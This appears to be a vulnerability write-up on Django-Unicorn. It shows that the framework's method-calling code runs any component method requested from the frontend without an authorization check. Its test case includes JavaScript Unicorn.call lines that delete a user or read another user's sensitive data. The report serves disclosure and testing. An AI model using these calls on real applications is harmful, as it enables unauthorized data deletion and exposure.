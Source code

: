 In `views/action_parsers/call_method.py`, the framework attempts to call methods with appropriate type conversion of arguments:

```python
def _call_method_name(component: UnicornView, method_name: str, args: Tuple[Any], kwargs: Dict[str, Any]) -> Any:
    """
    Calls the method name with parameters.

    Args:
        param component: Component to call method on.
        param method_name: Method name to call.
        param args: Tuple of arguments for the method.
        param kwargs: Dictionary of kwargs for the method.
    """

    if method_name is not None and hasattr(component, method_name):
        func = getattr(component, method_name)

        parsed_args: List[Any] = []
        parsed_kwargs = {}
        arguments = get_method_arguments(func)
        type_hints = get_type_hints(func)
```

This code will call any method on the component as long as it exists, with no check for whether it was intended to be called from the frontend.

### Security Test Case
1. Identify an application built with Django-Unicorn that has a component with a sensitive method, for example:

```python
class AdminComponent(UnicornView):
    def delete_user(self, user_id):
        # Delete a user from the database
        User.objects.get(id=user_id).delete()

    def view_user_data(self, user: User):
        # Return sensitive user data
        return user.get_sensitive_data()
```

2. Craft a JavaScript attack to call these methods:

```javascript
// Call method with primitive argument
Unicorn.call('admin-component', 'delete_user', 123);

// Call method with Model type parameter - will fetch User with ID 456 from database
Unicorn.call('admin-component', 'view_user_data', 456);
```

3. Verify that the method executes without any authorization check, potentially:
   - Deleting a user that the current user shouldn't be able to delete
   - Accessing sensitive data for a user that the current user shouldn't be able to view
